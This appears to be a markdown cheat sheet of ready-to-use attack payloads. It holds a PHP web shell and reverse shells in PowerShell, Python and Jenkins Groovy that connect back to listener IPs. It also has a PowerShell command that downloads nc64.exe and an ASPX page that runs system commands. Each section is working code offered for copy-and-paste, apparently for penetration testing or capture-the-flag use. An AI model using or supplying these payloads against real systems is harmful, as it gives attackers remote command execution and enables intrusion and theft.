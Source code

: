 ## PHP

```PHP
<?php echo(system($_GET["cmd"])); ?>
```

## Powershell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.0.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
> download file
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```

## Python
> Python 2
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## ASPX
> use for run commands
```ASPX
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

## Jenkins
> Groove script
```Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.17.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
